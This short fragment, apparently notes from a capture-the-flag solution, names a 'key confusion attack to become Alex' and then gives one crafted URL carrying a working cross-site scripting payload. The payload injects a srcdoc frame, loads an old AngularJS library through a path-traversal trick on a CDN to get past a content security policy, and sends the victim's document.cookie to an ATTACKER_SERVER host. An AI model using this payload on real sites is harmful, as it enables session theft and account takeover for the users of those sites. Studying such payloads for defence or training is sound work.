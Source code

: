 -   Key confusion attack to become Alex
-   http://127.0.0.1/assets/img/logoaa.png?https://test.com?A\\B=''srcdoc='<script/src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/..%2f..%2f/angular.js/1.8.0/angular.js"></script><div/ng-app/ng-csp><textarea/autofocus/ng-focus=$event.view.parent.parent.open("https://ATTACKER_SERVER/?"+$event.view.document.cookie)></textarea></div>'
